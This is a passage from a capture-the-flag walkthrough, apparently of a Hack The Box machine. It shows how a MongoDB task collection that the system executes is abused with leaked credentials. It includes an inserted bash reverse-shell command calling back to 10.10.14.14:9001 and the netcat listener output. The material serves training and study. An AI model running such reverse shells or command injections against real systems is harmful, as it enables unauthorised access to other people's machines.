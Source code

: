 It looks like this application is executing each `cmd` document in the `tasks` collection in the `scheduler` mongodb database. We are given a connection string in the file, so lets use that to see if we can access the `tasks` collection.

```bash
$ mongo 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?mechanism=DEFAULT&authSource=scheduler'
MongoDB shell version: 3.2.16
connecting to: mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?mechanism=DEFAULT&authSource=scheduler
> show collections
tasks
```

Looks like we can. Next, lets see if we can test if can add a `cmd` document that will `touch` a file into `/tmp`. In theory, we should be able to see a new `test.txt` file created in `/tmp` owned by "tom".

```txt
> db.tasks.insertOne({cmd: "touch /tmp/test.txt"})
{
 "acknowledged" : true,
 "insertedId" : ObjectId("609dbdcc6aa95725675008ed")
}
```

Then we wait a bit and verify that a file was created in `/tmp`.

```bash
$ mark@node:/var/scheduler$ ls -la /tmp
...
-rw-r--r--  1 tom     tom           0 May 14 01:01 test.txt
```

Alright, now that we have confirmed command execution, we can try a reverse shell command.

```txt
> db.tasks.insertOne({cmd: "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'"})
```

```bash
nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.58] 52438
bash: cannot set terminal process group (1222): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@node:/$
```

## Phase 4: Getting Root

First things first, since this is a `bash` reverse shell lets lets [upgrade the shell to a full TTY][tty-shell]. With our full shell, we can go back to looking at the `backup` utility. This was the utility that was called when the "myplace" application made its backup, which we can see in `/var/www/myplace/app.js`.


[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell